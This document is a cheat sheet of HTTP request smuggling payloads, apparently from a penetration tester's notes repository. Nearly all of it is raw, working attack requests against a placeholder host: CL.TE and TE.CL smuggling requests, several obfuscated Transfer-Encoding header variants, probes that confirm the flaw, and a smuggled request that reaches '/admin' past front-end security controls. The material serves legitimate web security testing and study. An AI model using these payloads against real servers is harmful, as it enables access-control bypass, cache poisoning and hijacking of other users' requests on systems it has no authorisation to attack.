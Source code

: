 # HTTP Request Smuggling Tips

## CL.TE Payload
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

## TE.CL Payload

if second request is "Not Found" --> TE.CL

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0


```

## Obfuscate TE header
```
Transfer-Encoding: xchunked
```

```
Transfer-Encoding : chunked
```

```
Transfer-Encoding: chunked
Transfer-Encoding: x
```

```
Transfer-Encoding:[tab]chunked
```

```
[space]Transfer-Encoding: chunked
```

```
X: X[\n]Transfer-Encoding: chunked
```

```
Transfer-Encoding
: chunked
```

## Confirming CL.TE vulnerabilities using differential responses
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

## Confirming TE.CL vulnerabilities using differential responses
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0


```

## Using HTTP request smuggling to bypass front-end security controls
```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```